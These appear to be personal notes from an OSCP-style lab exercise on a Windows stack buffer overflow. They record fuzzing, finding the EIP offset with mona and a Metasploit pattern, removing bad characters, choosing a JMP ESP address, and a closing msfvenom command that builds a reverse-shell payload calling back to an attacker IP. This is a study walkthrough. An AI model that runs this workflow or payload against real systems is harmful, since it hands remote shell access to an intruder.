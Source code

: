 ### EIP
❯ python3 fuzzer.py
Fuzzing crashed at 1300 bytes

/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1700

!mona findmsp -distance 1700

Log data, item 16
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x35714234 (offset 1274)


BBBB and empty payload verified the offset

### Bad chars
##### Round 1
ESP 0022FF8C
!mona compare -f C:\mona\oscp\bytearray.bin -a 0022FF8C

okay, anonying 00 01 again

##### Round 2
!mona bytearray -b "\x00\x01"

ESP 017CFA30

!mona compare -f C:\mona\oscp\bytearray.bin -a 017CFA30

00 01 11 12 40 41 5f 60 b8 b9 ee ef

\x00\x11\x40\x5f\xb8\xee

##### Round 3
!mona bytearray -b "\x00\x11\x40\x5f\xb8\xee"

!mona compare -f C:\mona\oscp\bytearray.bin -a 01A8FA30

00 01 11 40 5f b8 ee

##### Round 4? why \x01 has to be added into bytearrary?
!mona bytearray -b "\x00\x01\x11\x40\x5f\xb8\xee"

0022FA10

!mona compare -f C:\mona\oscp\bytearray.bin -a 0022FA10

00 01 02 11 40 5f b8 ee

##### Round 5
!mona bytearray -b "\x00\x01\x02\x11\x40\x5f\xb8\xee"

ESP 0180FA30

!mona compare -f C:\mona\oscp\bytearray.bin -a 0180FA30

Done, \x01\x02 two annonyings. OMG

\x00\x11\x40\x5f\xb8\xee

### JMP ESP
!mona jmp -r esp -cpb "\x00\x11\x40\x5f\xb8\xee"

62501203
\x03\x12\x50\x62

### Payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.3.98 LPORT=3333 EXITFUNC=thread -b "\x00\x11\x40\x5f\xb8\xee" -f c